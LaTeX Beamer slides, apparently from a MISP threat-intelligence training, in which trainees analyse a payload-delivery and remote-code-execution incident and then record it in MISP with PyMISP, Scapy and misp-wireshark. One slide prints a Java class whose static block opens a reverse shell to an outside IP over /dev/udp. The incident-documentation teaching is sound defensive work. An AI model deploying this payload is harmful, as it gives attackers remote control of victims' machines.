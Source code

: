 \begin{frame}[fragile]
    \frametitle{Exercise 3: Payload delivery and RCE 2/2}
	\begin{lstlisting}[basicstyle=\tiny\color{black},language=Java]
// ExecTemplateJDK8.class
package defpackage;

/* renamed from: ExecTemplateJDK8  reason: default package */
public class ExecTemplateJDK8 {
    static {
        try {
            Runtime.getRuntime()
                    .exec(System.getProperty("os.name").toLowerCase().contains("win")
                            ? new String[] {
                                    "cmd.exe", "/C",
                                    "sh -i >& /dev/udp/18.212.74.161/6666 0>&1"
                            }
                            : new String[] {
                                    "/bin/bash", "-c",
                                    "sh -i >& /dev/udp/18.212.74.161/6666 0>&1"
                            });
        } catch (Exception e) {
            e.printStackTrace();
        }
        System.out.println();
    }
}
	\end{lstlisting}

\end{frame}

\begin{frame}[fragile]
    \frametitle{Describing the timeline}
    Describe and encode the exfiltration process, data and target in MISP
    \note[item]{}
\end{frame}

\begin{frame}[fragile]
    \frametitle{MISP encoding 2/2}
    Play with distribution and correctly set it for each data point
    \note[item]{}
\end{frame}

\begin{frame}[fragile]
    \frametitle{PyMISP and Scapy}
    MISP automation with PyMISP and Scapy
    \note[item]{}
\end{frame}

\begin{frame}[fragile]
    \frametitle{Bonus: misp-wireshark}
    Show how misp-wireshark can be use to export pcap data to MISP format.
    \note[item]{}
\end{frame}
